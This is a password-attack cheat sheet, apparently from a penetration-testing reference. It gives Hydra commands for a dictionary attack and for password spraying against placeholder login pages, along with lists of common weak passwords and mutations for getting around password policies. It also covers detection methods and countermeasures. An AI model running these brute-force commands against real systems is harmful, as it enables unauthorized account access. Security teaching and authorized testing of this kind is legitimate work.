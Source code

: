 ### Hash Types Commonly Encountered
- **MD5**: Weak, fast to crack
- **SHA-1**: Deprecated, vulnerable
- **bcrypt**: Strong, slow to crack
- **scrypt**: Memory-hard function
- **Argon2**: Modern, secure option

### Attack Techniques

#### Dictionary Attack Example
```bash
# Hydra dictionary attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://target.com/admin/

# Burp Suite Intruder
# Configure payload positions and wordlist
```

#### Password Spraying
```bash
# Test common passwords against multiple accounts
for user in $(cat users.txt); do
    hydra -l $user -p Password123 http-post-form://target.com/login.php
done
```

### Common Weak Passwords
- Default passwords (admin/admin, root/root)
- Simple passwords (123456, password, qwerty)
- Seasonal passwords (Summer2024, Winter2024)
- Company-related passwords (CompanyName123)

### Password Policy Bypass
- **Case Variation**: Password → password, PASSWORD
- **Character Substitution**: @ for a, 3 for e, $ for s
- **Appending Numbers**: password1, password123
- **Keyboard Patterns**: qwerty123, asdf1234

### Detection Methods
- **Log Analysis**: Monitor failed login attempts
- **Rate Monitoring**: Track request frequencies
- **Pattern Recognition**: Identify systematic attacks
- **Account Lockout Monitoring**: Track locked accounts

### Countermeasures
- **Strong Password Policy**: Enforce complex passwords
- **Account Lockout**: Lock accounts after failed attempts
- **Rate Limiting**: Limit login attempt frequency
- **Multi-Factor Authentication**: Require additional authentication factors
- **CAPTCHA**: Implement anti-automation measures
- **Password Hashing**: Use strong hashing algorithms (bcrypt, Argon2)
- **Monitoring**: Implement real-time attack detection

---
